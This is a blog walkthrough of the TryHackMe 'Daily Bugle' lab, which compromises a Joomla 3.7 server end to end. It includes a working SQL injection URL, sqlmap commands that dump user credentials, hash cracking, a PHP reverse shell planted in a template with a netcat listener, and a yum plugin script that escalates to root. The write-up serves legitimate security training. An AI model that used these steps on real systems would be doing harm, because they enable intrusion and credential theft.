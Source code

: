 ```yaml
---
title: "TryHackMe - Daily Bugle - Walkthrough"
date: 2020-12-03T07:34:30-04:00
categories:
  - blog
tags:
  - learning
  - daily bugle
  - tryhackme
  - walkthrough
---
```


This is a walkthrough for the [TryHackMe][thm] room: [Daily Bugle][daily-room]. Let’s get started!

# Deploy
Let’s start off with scanning the box! `nmap -sC -sV -oN nmap.txt <machine_ip>`

![d1](/assets/images/thm/dailybugle/d1.png)

It looks like we have a webserver managed by Joomla, with a MySQL DB on the backend. Let’s visit the website!

![d2](/assets/images/thm/dailybugle/d2.webp)

There is our first answer!

# Obtain user and root
From the nmap scan, we can see that it found some pages. However, before we do that, since we know it is **Joomla** let’s scan the site with `joomscan`. This can be found [here][joomscan]. This is a tool that will scan Joomla and tell is info and possible vulnerabilities.

We will run it with the following command: `perl joomscan.pl -u http://<machine_ip>`

![d3](/assets/images/thm/dailybugle/d3.png)

The scan came back with a version number! After looking through the info, there isn’t much else there that we didn’t already know. Let’s search for vulnerabilities in that version.

`searchsploit joomla 3.7`

We see a few options. Let’s go with `42033`. This can be found [here][exdb]. The exploit suggests that the following URL is vulnerable:

`http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27`

Let’s navigate to that URL and check on our server.

![d4](/assets/images/thm/dailybugle/d4.webp)

If you see on the bottom, we get a SQL error from the DB server. This means it is vulnerable! Let’s use SQLMap to exploit this (syntax can be found in exploit information)!

```bash
sqlmap -u "http://<machine_ip>/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

Now that we have the various database names, let’s dump out the credentials. We want the `joomla` database.

```bash
sqlmap -u "http://<machine_ip>/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' -C id,name,username,email,password,usertype,block,sendEmail,registerDate,lastvisitDate,activation,params --dump
```

![d5](/assets/images/thm/dailybugle/d5.webp)

We have the hash! Let’s crack it with **John the Ripper**. Put the hash into a file. Then run `john` against a wordlist.

`john hash.txt --wordlist=/home/bw/PenTesting/Tools/SecLists/Passwords/Common-Credentials/rockyou.txt`

We cracked the password!

![d6](/assets/images/thm/dailybugle/d6.png)

Login to Joomla. Let’s see what our permissions are. Navigate to **Users** and you can see that we have **Super User** permissions. Let’s edit a template to give us a shell! Navigate to **Templates > Templates > Protostar Details and Files > index.php**

Now add our reverse shell code (This can be found [here][php]):

![d7](/assets/images/thm/dailybugle/d7.png)

Save the template. Start a `netcat` listener on the port specified: `nc -lnvp 1234`

Now select **Template Preview** and you should see a shell come up! We are the apache user, so we need to find user credentials to ssh in with.

Let’s `ls /home` to find a username. Then navigate to `/var/www/html` so we can get credentials.

Here we find the `configuration.php` file. We can gather credentials here:

![d8](/assets/images/thm/dailybugle/d8.png)

SSH into the box and find the user flag!

![d9](/assets/images/thm/dailybugle/d9.png)

Now we need to do some privilege escalation. We need to utilize `yum` for our privesc exploit. Let’s look at [GTFObins][gtfo]. Search for `yum`. Let’s use the 2nd option.

```bash
TF=$(mktemp -d)

cat >$TF/x<<EOF

[main]

plugins=1

pluginpath=$TF

pluginconfpath=$TF

EOF


cat >$TF/y.conf<<EOF

[main]

enabled=1

EOF


cat >$TF/y.py<<EOF

import os

import yum

from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE requires_api_version='2.1'

def init_hook(conduit):

   
os.execl('/bin/sh','/bin/sh')

EOF
```

`sudo yum -c $TF/x --enableplugin=y`

Now we can run: `whoami`. We are root!!!

Let’s get the flag!

![d10](/assets/images/thm/dailybugle/d10.png)

# Review
Wow! This was definitely a more difficult box than I’ve done so far on THM. It was such a fun challenge and I’m glad that it put up a fight! I learned some new tools like joomscan and utilized the tried and true PHP reverse shell. Overall, this was a great room to challenge yourself!

# References
[TryHackMe][thm] | [Daily Bugle Room][daily-room] | [Joomscan][joomscan] | [Exploit-DB: 42033][exdb] | [PHP Reverse Shell][php] | [GTFObins][gtfo]

[thm]: https://tryhackme.com
[daily-room]: https://tryhackme.com/r/room/dailybugle
[joomscan]: https://github.com/OWASP/joomscan
[exdb]: https://www.exploit-db.com/exploits/42033
[php]: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
[gtfo]: https://gtfobins.github.io
